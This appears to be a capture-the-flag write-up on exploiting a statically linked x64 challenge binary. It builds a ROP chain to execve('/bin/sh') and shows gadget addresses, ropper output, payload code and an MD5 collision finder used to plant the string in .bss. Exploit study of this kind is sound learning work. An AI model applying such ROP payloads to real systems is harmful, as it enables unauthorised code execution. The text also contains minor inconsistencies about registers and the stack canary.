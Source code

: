 
So, it is a statically linked x64 NX binary with no PIE. I'm not sure why pwn checksec says `Canary found`; when I disassembled the binary I found no stack checks and I never ran into a canary when exploiting it. Because the program uses the stack protector, we cannot simply write shellcode on the stack. There isn't a win() function either. So, we will have to use Return Oriented Programming.

This is a statically linked executable, so no ret2libc. Instead, we try to construct `execve("/bin/sh",NULL,NULL)` using ROP gadgets. To do this, we will need to control four registers: `rdi` must be a pointer to the /bin/sh string; `rsi` must be 0; `rdx` must be 0; and `rax` must be 0x3b to indicate the execve syscall. Each of these registers can be set with a rop gadget to pop from the stack into the register.

To find these gadgets, I used ropper:
```
$ ropper --file fabricator --search 'pop rax; ret'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rax; ret

[INFO] File: fabricator
0x000000000041c0c4: pop rax; ret;
```
Using this tool, I found all the required gadgets:
```python
pop_rdi = p64(0x00000000004006c6)
pop_rsi = p64(0x00000000004010dc)
pop_rax = p64(0x000000000041c0c4)
pop_rdx = p64(0x0000000000452856)
syscall = p64(0x000000000047ba25)
```
Setting rax, rsi, and rax to the desired values will be easy; just place the value on the stack and pop it into the register.
```python
payload += pop_rax
payload += p64(0x3b)
payload += pop_rsi
payload += p64(0)
payload += pop_rdx
payload += p64(0)
```
However, rdi will be more difficult since it must contain a pointer to the string "/bin/sh", and no such string exists in the binary. We could create the string ourselves in the stack, but we don't know stack addresses, so we couldn't hardcode a pointer to the string. Instead, we can use a segment which is not randomized, `.bss`. Since id1 and id2 are uninitialized globals, they will be at static addresses in the .bss and we can write our "/bin/sh" string at an offset of one of these. Just make a slight modification to the collision finder and "/bin/sh" can be placed in memory at a known address.
```python
def collide(payload):
    assert len(payload) == 400 - 256
    collisions = []
    i = 10000000
    while len(collisions)<2:
        msg = (prefix
              +str(i).encode()
              +b'/bin/sh\0'
              +b'A'*(256-len(prefix)-len(str(i))-len('/bin/sh\0'))
              +payload
              )
        h = MD5.new()
        h.update(msg)
        if h.hexdigest()[:2] == '00':
            collisions.append(msg)
        i+=1
    return collisions
```